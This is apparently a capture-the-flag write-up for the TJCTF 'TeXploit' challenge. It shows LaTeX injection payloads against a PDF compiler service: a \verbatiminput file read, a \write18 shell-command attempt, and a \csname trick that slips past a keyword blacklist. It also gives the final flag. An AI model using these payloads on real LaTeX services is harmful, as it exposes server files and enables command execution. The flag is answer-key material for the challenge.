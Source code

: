 ## TeXploit

---

### Challenge

I made a LaTex compiler that can generate pdfs. It even prints the log file if there is an error. The flag is located in `/flag.txt`

[https://instancer.tjctf.org/challenge/texploit](https://instancer.tjctf.org/challenge/texploit)

---

### Solution

In the Latex compiler, I tried giving different payloads. If I were to give just hello, it would show me a pdf with hello printed. But I want payloads that can print `flag.txt`

```
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/flag.txt}
\end{document}
```
![image](https://github.com/user-attachments/assets/1c24b613-9bd7-4a2b-9047-ca545d8ab8c1)

While trying multiple payloads like this, I found that `input`, `include`, `repeat` etc are blacklisted keywords.

So I tried crafting my payload without them. For example: `\immediate\write18{cat /flag.txt}`. Here `\write18` is Latex's way of executing shell commands but I encountered an error.

![image](https://github.com/user-attachments/assets/8c49c343-50bf-48e0-9e71-999a331a8cc3)

Next, I tried a payloads that obfuscates the input so that it won't be filtered.

```
\def\x{i}
\def\y{nput}
\csname \x\y\endcsname{/flag.txt}
```

![image](https://github.com/user-attachments/assets/00aefa4d-6691-41f8-9ad7-1034a4d5e298)

In this output, I can see parts of what appears to be the flag. When I put it together, I got the right flag.

---

### Flag

`tjctf{f1l3_i0_1n_l4t3x?}`
